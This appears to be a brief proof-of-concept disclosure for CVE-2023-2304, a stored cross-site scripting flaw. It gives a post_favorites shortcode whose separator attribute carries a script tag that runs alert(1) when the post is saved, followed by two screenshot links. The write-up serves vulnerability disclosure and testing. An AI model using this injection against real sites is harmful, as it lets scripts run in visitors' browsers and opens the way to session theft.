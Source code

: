 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2304

## Stored XSS

* Create a post and create a shortcode with the following: `[post_favorites separator="<script>alert(1);</script>"]`
* Save it, the XSS will now trigger!

![Screenshot1](screenshot1.png)
![Screenshot2](screenshot2.png)
